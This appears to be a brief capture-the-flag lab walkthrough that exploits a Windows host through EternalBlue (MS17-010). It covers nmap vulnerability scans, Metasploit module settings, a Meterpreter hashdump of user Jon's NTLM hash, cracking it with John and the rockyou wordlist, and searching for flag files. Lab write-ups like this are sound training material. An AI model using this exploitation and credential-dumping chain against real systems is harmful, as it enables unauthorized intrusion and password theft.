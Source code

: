 - `nmap -sC -sV [IP] --vv` - this gives us the open ports 
- `nmap -sV -vv --script vuln [IP]` - tells us what it is vulnerable to, so we get to know that it's vulnerable to `ms17-010` (SMBv1 microsoft server RCE) , so `use exploit/windows/smb/ms17_010_eternalblue`
- now do `show options` and `set rhosts` and `set lhost` and run the exploit  
- we get a meterpreter session, do `hashdump` and we get the NTLM hash of user `Jon` , so now we will crack it using `John`
> `john --format=NT /usr/share/wordlists/rockyou.txt` hash.txt
> cracked =_alqfna22_
- now we have to search for the `flag.txt` files within the directories so we use the feature of a meterpreter wherein we can search for files 
> `search -f flag*.txt` - this gives us the locations of all the 3 flags now navigate to those directories and cat out the flags
---
